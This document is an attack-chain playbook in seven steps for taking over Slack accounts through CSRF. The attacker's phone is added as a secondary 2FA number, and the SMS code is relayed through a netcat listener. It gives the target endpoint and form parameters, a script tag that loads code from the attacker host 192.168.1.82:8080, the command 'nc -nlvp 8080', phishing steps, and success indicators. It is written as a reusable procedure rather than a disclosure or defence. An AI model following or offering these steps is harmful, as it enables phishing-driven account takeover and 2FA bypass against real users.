

# CSRF Exploitation to Add Secondary 2FA Phone Number in Slack for Account Takeover

Multi-stage attack chain demonstrating a complete CSRF-based workflow to hijack Slack's 2FA by adding an attacker's phone number, allowing code interception for account takeover or DoS.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 7 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Netcat]]

### Target Environment

- Web platform (Slack web app)
- Victim must be logged in to Slack
- Attacker needs a phone number for SMS reception
- Network access to host malicious HTML/JS page

### Initial Access Requirements

- Social engineering to get victim to click link while logged in
- No prior credentials needed, but victim session active
- Attacker's server accessible (e.g., port 8080 open)

## Detailed Attack Procedures

### Step 1: Send Malicious Link to Victim
procedure: [[procedures/Send-Malicious-CSRF-Link-to-Victim]]

**Objective**: Trick the logged-in victim into loading a malicious page that initiates the CSRF attack.

**Instructions**: Craft and send a phishing link pointing to a hosted malicious HTML file (e.g., slackcsrf.html) via email, chat, or other means. The page will auto-execute forms and JS.

**Expected Output**: Victim's browser loads the page and begins form submission.

**Success Indicators**:
- Victim confirms clicking the link
- Network traffic shows request to attacker's hosted page

### Step 2: Auto-Submit CSRF Form to Add Phone Number
procedure: [[procedures/Auto-Submit-CSRF-Form-to-Add-Phone]]

**Objective**: Exploit missing CSRF token validation to add attacker's phone as secondary 2FA without user consent.

**Instructions**: The loaded HTML form auto-submits a POST to https://cs-sa.slack.com/account/settings/2fa_sms with parameters: verify_two_factor=1, country_code=AU, phone_number=█████████ (attacker's number), omitting the crumb token.

**Expected Output**: Server accepts the request, adds the phone, and sends SMS code to attacker's number.

**Success Indicators**:
- SMS code received on attacker's phone
- No error in form submission (visible in browser console)

### Step 3: Setup JavaScript Callback for SMS Code
procedure: [[procedures/Setup-JavaScript-Callback-for-SMS-Code]]

**Objective**: Prepare the victim's page to fetch the SMS code from attacker's server for automated verification.

**Instructions**: Include a script tag in the HTML: <script src="http://192.168.1.82:8080/a"></script>. This loads JS that sets a global variable scode upon receiving the response.

**Expected Output**: JS executes, variable scode is populated with the code.

**Success Indicators**:
- Browser dev tools show successful script load and variable set
- No CORS or network errors

### Step 4: Receive and Relay SMS Verification Code
procedure: [[procedures/Receive-and-Relay-SMS-Verification-Code]]

**Objective**: Capture the SMS on attacker's side and serve it back to the victim's page.

**Instructions**: Run [[commands/Netcat-HTTP-Server]] to listen on port 8080 and respond to GET /a with 'scode=196206;' (replace with actual code).

```bash
nc -nlvp 8080
```

When the victim's JS requests /a, respond manually with the HTTP 200 and scode.

**Expected Output**: Connection from victim's IP, response sent: HTTP/1.1 200 OK scode=196206;

**Success Indicators**:
- nc shows incoming GET /a request
- SMS code relayed successfully

### Step 5: Auto-Verify Secondary Phone Number
procedure: [[procedures/Auto-Verify-Secondary-Phone-Number]]

**Objective**: Use the relayed code to verify the added phone number automatically.

**Instructions**: Second form auto-submits POST to https://cs-sa.slack.com/account/settings/2fa_sms with backup=1, confirmation_code=scode (e.g., 196206), formatted_phone_number=+61 ████████.

**Expected Output**: Server verifies the code and enables the secondary number.

**Success Indicators**:
- No verification error
- Account settings reflect added number

### Step 6: Confirm Addition of Secondary 2FA Number
procedure: [[procedures/Confirm-Addition-of-Secondary-2FA-Number]]

**Objective**: Ensure the secondary phone is active for future 2FA logins.

**Instructions**: Monitor the final response from the verification POST; successful addition means SMS will route to secondary on login.

**Expected Output**: Slack account now lists the attacker's phone as optional 2FA receiver.

**Success Indicators**:
- Victim's account 2FA settings updated
- Test login shows option for secondary number

### Step 7: Bypass 2FA via Secondary Phone on Login
procedure: [[procedures/Bypass-2FA-via-Secondary-Phone-on-Login]]

**Objective**: Use the added number to intercept 2FA codes and access the account.

**Instructions**: Attempt login to victim's Slack with known credentials, select the secondary phone for code delivery, receive SMS, and enter it.

**Expected Output**: Successful login bypassing primary 2FA.

**Success Indicators**:
- Access to victim's workspace
- Potential DoS if victim tries to login without code

## Attack Chain Summary

### Key Achievements

1. Added attacker's phone via CSRF without token validation
2. Automated SMS relay for seamless verification
3. Enabled 2FA bypass or victim lockout

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Credential Access]] Credential Access

---

*Last updated: 2023-10-01T00:00:00Z*
